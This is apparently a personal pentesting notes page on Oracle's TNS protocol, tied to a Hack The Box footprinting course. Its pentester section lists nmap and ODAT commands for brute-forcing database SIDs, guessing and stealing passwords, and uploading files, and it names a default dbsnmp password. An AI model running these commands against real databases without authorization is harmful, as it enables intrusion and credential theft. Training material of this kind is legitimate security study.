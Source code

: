 # TNS

[![footprinting](../../../cybersecurity/_badges/htb/footprinting.svg)](https://academy.hackthebox.com/course/preview/footprinting)

<div class="row row-cols-lg-2"><div>

Transparent Network Substrate (TNS) is a protocol owned and developed by Oracle. It's mainly used to manage [Oracle Databases](/programming-languages/databases/relational/dbms/oracle.md). 

It includes performance monitoring and analysis, error reporting, and logging tools. It supports a wide range of networking protocols such as IPX/SPX, TCP/IP, IPV6, and SSL/TLS. Communications are encrypted.

🐊️ **Port**: 1521 (TCP)

The server-side service that listens for clients is called a listener. Its configuration determines which networking protocols are allowed.
</div><div>
</div></div>

<hr class="sep-both">

## TNS Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

List databases using brute force:

```shell!
$ sudo nmap IP -p 1521 -sV --script oracle-sid-brute
```

[Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) <small>(1.5k ⭐, ODAT, 2022 ☠️)</small> can be used to enumerate or exploit Oracle Databases.

```ps
$ sudo apt install odat
$ odat all -s IP
$ odat sidguesser -s IP
$ odat passwordguesser -s IP -d sid
$ odat passwordstealer -s IP -U username -P password -d sid --sysdba --get-passwords
$ odat utlfile [...] # file upload
```

📚 User may have sys dba access, try `--sysdba`.
</div><div>

We can use Oracle SQLPlus to connect to the database:

```shell!
$ sudo apt-get install oracle-instantclient-sqlplus
$ sudo updatedb
$ # if you got an error when running sqlplus
$ lpath=$(dirname `locate libsqlplus.so`) ; echo $lpath
$ sudo sh -c "echo $lpath > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
$ # connect
$ sqlplus username/password@IP/sid
$ sqlplus username/password@IP/sid as sysdba
```

📚 User may have sys dba access, try `as sysdba`.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `tnsnames.ora` (client-side infos, list of db/services configurations) 
* `listener.ora` (server-side config, listener config)
* `$ORACLE_HOME/network/admin` folder
* DBSNMP service has `dbsnmp` default password
* Finger service?
* PL/SQL Exclusion List (PlsqlExclusionList)
* Remove Listener Management?
</div><div>
</div></div>
